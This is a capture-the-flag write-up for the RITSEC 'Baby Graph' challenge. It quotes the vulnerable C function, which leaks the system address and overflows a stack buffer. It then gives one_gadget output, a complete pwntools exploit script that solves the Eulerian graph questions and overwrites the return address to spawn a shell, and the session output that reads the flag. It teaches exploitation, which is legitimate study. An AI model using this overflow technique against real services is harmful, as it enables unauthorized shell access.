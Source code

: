 # RITSEC Baby Graph Write Up

## Details:

Jeopardy style CTF

Category: Reverse Engineering

Comments:

This is what happens to your baby when you want a pwner and a graph theorist. Do your part!!!

```
nc challenges1.ritsec.club 1339
```

## Write up:

Looking at the C source we can see that we need to answer some graph theory questions and then we get to the vulnerability:

```c
void vuln() {
    char buf[100];

    printf("Here is your prize: %p\n", system);
    fgets(buf, 400, stdin);
}
```

This function prints out the address of system and then reads in data resulting in a buffer overflow. 

At this point my teammate made a quick script to do the graph theory problems which then let me check if we could get a segfault.

This challenge provided a libc so I did not need to leak libc. I then used one_gadget to find potential jumps:

```
one_gadget libc.so.6  

0xe6c7e execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL
  [r12] == NULL || r12 == NULL

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL
  [rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

Using gdb I found that 0xe6c81 was the call I wanted and that I would need 120 NOPs. I then created the following script:

```python
# import pwntools
from pwn import *

# open connection
conn = remote('challenges1.ritsec.club', 1339)

# open libc
libc = ELF('./libc.so.6')

# get system call offset
sysCall = libc.symbols['system']

# do graph theory stuff
from collections import defaultdict
   
class Graph:
    def __init__(self,vertices):
        self.V= vertices #No. of vertices
        self.graph = defaultdict(list) # default dictionary to store graph
    def addEdge(self,u,v):
        self.graph[u].append(v)
        self.graph[v].append(u)
    def DFSUtil(self,v,visited):
        visited[v]= True
        for i in self.graph[v]:
            if visited[i]==False:
                self.DFSUtil(i,visited)
    def isConnected(self):
        visited =[False]*(self.V)
        for i in range(self.V):
            if len(self.graph[i]) > 1:
                break
        if i == self.V-1:
            return True
        self.DFSUtil(i,visited)
        for i in range(self.V):
            if visited[i]==False and len(self.graph[i]) > 0:
                return False
        return True
    def isEulerian(self):
        if self.isConnected() == False:
            return 0
        else:
            odd = 0
            for i in range(self.V):
                if len(self.graph[i]) % 2 !=0:
                    odd +=1
            return odd==0
  
def i():
    s = conn.recvline().strip().decode()
    print(s)
    return s
for _ in range(5):
    i()
    l=i().split(' ')
    v =int(l[2])
    e=int(l[6])
    g = Graph(v)
    for _ in range(e):
        a,b = i().split()
        g.addEdge(int(a),int(b))
    i()
    print(g.isEulerian())
    if g.isEulerian():
        conn.send('Y\n')
    else:
        conn.send('N\n')

# get the system address
addy = conn.readline()
addy = (int(str(addy)[22:-3], 16))

# make the nops
nops = b'\x90'* 120

# send the payload
conn.sendline(nops + p64(addy - sysCall + 0xe6c81))

# open interactive mode
conn.interactive()
```

When run I got the following:

```
[+] Opening connection to challenges1.ritsec.club on port 1339: Done
[*] '/home/kali/Downloads/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Here is your baby graph
V = 9 - E = 11
0 2
0 8
2 3
2 4
2 5
2 6
3 6
4 8
6 7
6 8
7 8
Now tell me if this baby is Eulerian? (Y/N)
False
Here is your baby graph
V = 2 - E = 0
Now tell me if this baby is Eulerian? (Y/N)
True
Here is your baby graph
V = 9 - E = 35
0 1
0 2
0 3
0 4
0 5
0 6
0 7
0 8
1 2
1 3
1 4
1 5
1 6
1 7
1 8
2 3
2 4
2 5
2 6
2 7
2 8
3 4
3 5
3 6
3 7
3 8
4 5
4 6
4 7
4 8
5 6
5 7
5 8
6 8
7 8
Now tell me if this baby is Eulerian? (Y/N)
False
Here is your baby graph
V = 6 - E = 0
Now tell me if this baby is Eulerian? (Y/N)
True
Here is your baby graph
V = 5 - E = 0
Now tell me if this baby is Eulerian? (Y/N)
True
[*] Switching to interactive mode
$ cat flag.txt
RS{B4by_gr4ph_du_DU_dU_Du_B4by_graph_DU_DU_DU_DU_Baby_gr4ph}
```